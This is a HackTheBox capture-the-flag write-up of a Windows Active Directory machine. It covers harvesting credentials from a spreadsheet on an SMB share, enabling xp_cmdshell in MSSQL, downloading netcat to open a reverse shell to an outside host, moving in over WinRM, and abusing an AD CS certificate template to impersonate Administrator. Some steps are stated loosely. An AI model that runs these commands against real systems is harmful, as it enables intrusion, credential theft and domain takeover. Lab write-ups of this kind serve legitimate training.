# Escape Two — HackTheBox

| Field      | Value                                      |
|------------|--------------------------------------------|
| Platform   | HackTheBox                                 |
| OS         | Windows                                    |
| Difficulty | Easy                                       |
| Tags       | SMB, XLSX credential extraction, MSSQL, xp_cmdshell, WinRM, Active Directory, AD CS |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



The scan revealed a Windows domain environment with SMB (445), WinRM (5985), and MSSQL (1433) open. The presence of WinRM means we can get an interactive shell if we have valid credentials. MSSQL is an immediate target for `xp_cmdshell` abuse. The machine hostname and domain name came back via SMB enumeration.

---

## 2. SMB Enumeration — Credential Extraction from XLSX

With SMB open, the first step is enumerating shares using guest or null sessions:

```bash
smbclient -L //<IP>/ -N
# or
netexec smb <IP> -u '' -p '' --shares
```



A readable share was found containing an Excel (`.xlsx`) file. Downloaded it locally.

`.xlsx` files are ZIP archives containing XML files. To extract embedded text without opening Excel, decompress the file and parse the XML directly:

```bash
unzip -p file.xlsx xl/sharedStrings.xml \
  | sed 's/<\/t>/\n/g' \
  | sed 's/<[^>]*>//g' \
  | grep -v '^$'
```

**Why this works:**
- `unzip -p` streams the XML content to stdout
- `sed 's/<\/t>/\n/g'` inserts a newline after each closing `</t>` tag, separating individual cell values
- `sed 's/<[^>]*>//g'` strips all remaining XML tags
- `grep -v '^$'` removes blank lines





The file contained plaintext credentials for what appeared to be a service account.

---

## 3. MSSQL Access & xp_cmdshell RCE

Used the extracted credentials to connect to MSSQL:

```bash
impacket-mssqlclient <user>:<password>@<IP>
# or
sqsh -S <IP> -U <user> -P <password>
```



`xp_cmdshell` is a stored procedure in SQL Server that executes OS commands. It is disabled by default in modern SQL Server installations, but can be re-enabled if the connected user has `sysadmin` privileges or `CONTROL SERVER` permission.

Enabled it with the following sequence:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



Verified code execution:

```sql
xp_cmdshell whoami /priv
```



No immediate high-value privileges (`SeImpersonatePrivilege` was not present at this stage). This meant a direct token impersonation attack like PrintSpoofer or Potato wasn't available yet.

Set up a reverse shell. Served a `nc64.exe` binary via Python HTTP server, downloaded it to the target, and executed it:

```sql
xp_cmdshell "powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.x/nc64.exe','C:\Windows\Temp\nc64.exe')"
xp_cmdshell "C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.x 4444"
```



---

## 4. Lateral Movement — WinRM as New User

With a shell on the system, enumerated local and domain users:

```bash
net user /domain
```



The `sql_svc` account and other domain users were visible. Service accounts (`_svc` suffix) are high-value targets — they often have elevated permissions or reused passwords.

Enumerated further and found credentials or a path to authenticate to WinRM as a user in the `Remote Management Users` group. Connected with evil-winrm:

```bash
evil-winrm -i <IP> -u <user> -p <password>
```



Grabbed the user flag:

```bash
type C:\Users\<user>\Desktop\user.txt
```



---

## 5. Privilege Escalation — Active Directory Certificate Services (AD CS)

Ran `whoami /all` to check group memberships and privileges on the new shell:

```bash
whoami /all
```



Key findings:
- Member of `Management Department` group
- `SeMachineAccountPrivilege` present
- Member of `Remote Management Users` (explains WinRM access)

The `sql_svc` account and Management Department membership pointed toward an AD CS abuse path. Enumerated certificate templates:





Found a vulnerable certificate template — misconfigured to allow requesting certificates on behalf of other users (ESC1 or similar). Used `Certify` or `certipy` to request a certificate for the Administrator account:

```bash
# With certipy
certipy req -u <user>@<domain> -p <password> -ca <CA-name> -template <vulnerable-template> -upn administrator@<domain>
certipy auth -pfx administrator.pfx
```



Authenticated with the obtained certificate to get the Administrator NTLM hash via PKINIT, then used pass-the-hash or directly authenticated:

```bash
evil-winrm -i <IP> -u Administrator -H <NTLM-hash>
```



```bash
type C:\Users\Administrator\Desktop\root.txt
```

---

## 6. Key Takeaways

**XLSX files are ZIP archives.** Always try `unzip -p file.xlsx xl/sharedStrings.xml` to extract cell data without needing Office. Credentials left in spreadsheets on SMB shares are extremely common in Windows environments.

**xp_cmdshell requires re-enabling but gives immediate OS access.** When connecting to MSSQL with `sysadmin` or `CONTROL SERVER` rights, `sp_configure` can re-enable xp_cmdshell. Always try this — it bypasses the need for any exploit.

**Service accounts (`_svc`) deserve special attention.** They often have elevated AD permissions, persistent tickets, or reused passwords. `net user /domain` should be one of the first commands run after initial access.

**AD CS misconfigurations (ESC1–ESC8) are a fast path to domain compromise.** A certificate template that allows enrolling on behalf of another user can be used to impersonate the Administrator. Tools like `certipy` or `Certify` automate the discovery and exploitation of these templates.
